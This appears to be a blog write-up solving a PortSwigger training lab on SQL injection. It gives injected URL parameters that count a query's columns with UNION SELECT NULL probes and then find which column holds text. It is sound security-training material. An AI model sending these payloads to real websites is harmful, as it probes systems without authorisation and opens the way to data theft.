 ```yaml
---
title: PortSwigger - SQLi 4 - Finding column containing text
date: 2023-03-03
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal 

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided.

Value provided: '`abc`'

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

We now know there are 3 columns. Time to find which one contains string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,'abc'--    # error!
````

The second column contains string.
